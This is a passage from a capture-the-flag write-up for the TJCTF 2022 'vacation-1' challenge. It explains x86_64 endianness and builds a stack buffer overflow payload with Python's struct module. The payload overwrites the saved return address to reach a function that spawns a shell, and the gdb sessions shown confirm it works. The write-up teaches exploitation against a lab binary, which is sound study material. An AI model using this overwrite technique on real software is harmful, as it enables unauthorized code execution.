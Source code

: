 ```bash
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤
```

I have truncated some of the irrelevant output. The top of the stack contains the value `0x9b11400000000000`, not `0x000000000040119b` as we expected. We got the endianness wrong. x86_64 uses little endian to store multi-byte values where the least significant bytes are stored first. So we need to use `b'\x9b\x11\x40\x00\x00\x00\x00\x00'` instead. A better way to format values into bytes is using the `struct` package:

```python
import struct
payload = b'x' * 16 # fill buffer
payload += b'a' * 8 # overwrite saved rbp
payload += struct.pack("Q", 0x0040119e) # our target return address
with open('payload.txt', 'wb') as f:
  f.write(payload)
```

The `struct.pack()` function will pack the value we give it into bytes based on the format string we give it. In this case, the format string is simply, `"Q"`, meaning a quad-word (8-bytes) in native endianness. We can also specify the byte ordering/endianness with either `<` or `>` for little-endian and big-endian, respectively. Refer to its [docs][struct-pack-docs] for more info.

Then we try to send the payload again:

```bash
$ ./chall < payload.txt
^C
$
```

We don't see anything, but it doesn't look like it crashed, so let's try it with gdb:

```bash
$ gdb ./chall
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
...
gef➤  r < payload.txt
Starting program: /home/brian/Projects/ext/CTFs/2022/TJCTF/pwn/vacation-1/chall < payload.txt
Where am I going today?
[Detaching after vfork from child process 2795136]
[Inferior 1 (process 2795132) exited normally]
[sync] exit, sync finished
gef➤
```

If our exploit worked successfully, the `shell_land()` function should have executed `/bin/bash`. This time, it looks like the fork succeeded. GDB detached after the program forked because it did not know whether to follow to parent or the child. This is the default behavior. We can, however, tell gdb to follow the child:

```
gef➤  set follow-fork-mode child
gef➤  r < payload.txt
Starting program: /home/brian/Projects/ext/CTFs/2022/TJCTF/pwn/vacation-1/chall < orig_payload.txt
Where am I going today?
[Attaching after process 2795531 vfork to child process 2795532]
[New inferior 2 (process 2795532)]
[Detaching vfork parent process 2795531 after child exec]
[sync] exit, sync finished
[Inferior 1 (process 2795531) detached]
process 2795532 is executing new program: /usr/bin/dash
[Attaching after process 2795532 fork to child process 2795533]
[New inferior 3 (process 2795533)]
[Detaching after fork from parent process 2795532]
[sync] exit, sync finished
```

[img-prompt]: /assets/img/tjctf2022/vacation-1/0-prompt.png
[chall]: /assets/data/tjctf2022/vacation-1/chall
[chall-src]: /assets/data/tjctf2022/vacation-1/chall.c
[file-dockerfile]: /assets/data/tjctf2022/vacation-1/Dockerfile
[binary-warning]: /tjctf2022/rev/take-a-l.html#file-type-identification
[gef]: https://github.com/hugsy/gef
[gdb-examine]: https://sourceware.org/gdb/onlinedocs/gdb/Memory.html
[struct-pack-docs]: https://docs.python.org/3/library/struct.html#format-strings
[man-cat]: https://man7.org/linux/man-pages/man1/cat.1.html
[pwntools]: https://docs.pwntools.com/en/stable/
